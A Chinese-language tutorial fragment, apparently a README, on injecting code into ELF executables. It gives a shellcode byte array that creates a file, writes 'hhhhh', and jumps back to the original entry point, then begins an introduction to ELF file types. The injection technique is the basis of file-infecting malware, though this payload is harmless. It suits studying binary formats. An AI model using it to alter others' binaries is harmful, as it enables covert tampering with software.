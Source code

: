 + 选取其中十六进制的数字作为 main.c 中变量 inject_data

  注意注释

  ```
      char inject_data[] = {
          0x50,
          0x53,
          0x51,
          0x52,
          0x48, 0xc7, 0xc0, 0x08, 0x00, 0x00, 0x00,
          // 由于注入之后数据段的地址修改了，故此处需要自行计算新的地址，具体请参见代码
          0x48, 0xc7, 0xc3, new_addr[0], new_addr[1], new_addr[2], 0x00,
          0x48, 0xc7, 0xc1, 0xa4, 0x01, 0x00, 0x00,
          0xcd, 0x80,
          0x48, 0x89, 0xc3,
          0x48, 0xc7, 0xc0, 0x04, 0x00, 0x00, 0x00,
          // 由于注入之后数据段的地址修改了，故此处需要自行计算新的地址，具体请参见代码
          0x48, 0xc7, 0xc1, new_addr[0], new_addr[1], new_addr[2], 0x00,
          0x48, 0xc7, 0xc2, 0x05, 0x00, 0x00, 0x00,
          0xcd, 0x80,
          0x48, 0xc7, 0xc0, 0x06, 0x00, 0x00, 0x00,
          0xcd, 0x80,
          0x5a,
          0x59,
          0x5b,
          0x58,
          //跳转指令
          // 此处在原来的汇编程序中为程序中断指令，修改为跳转到原入口地址elfh.e_entry 
          0xbd, ori_addr[0], ori_addr[1], ori_addr[2], 0x00, 0xff, 0xe5,
          
          0x68, 0x68, 0x68, 0x68, 0x68, 0x00

      };
  ```

  ​

## ELF初体验

可执行链接格式(Executable and Linking Format)最初是由 UNIX 系统实验室(UNIX System Laboratories，USL)开发并发布的，作为应用程序二进制接口(Application Binary Interface，ABI)的一部分。工具接口标准(Tool Interface Standards，TIS)委员会将还 在发展的 ELF 标准选作为一种可移植的目标文件格式，可以在 32 位 Intel 体系结构上的 很多操作系统中使用。

目标文件有三种类型:

- 可重定位文件(Relocatable File) .o)包含适合于与其他目标文件链接来创建可执行文件或者共享目标文件的代码和数据。
- 可执行文件(Executable File) .exe) 包含适合于执行的一个程序，此文件规定了exec() 如何创建一个程序的进程映像。
- 共享目标文件(Shared Object File) .so) 包含可在两种上下文中链接的代码和数据。首先链接编辑器可以将它和其它可重定位文件和共享目标文件一起处理， 生成另外一个目标文件。其次动态链接器(Dynamic Linker)可能将它与某 个可执行文件以及其它共享目标一起组合，创建进程映像。

目标文件全部是程序的二进制表示，目的是直接在某种处理器上直接执行。

## ELF文件格式
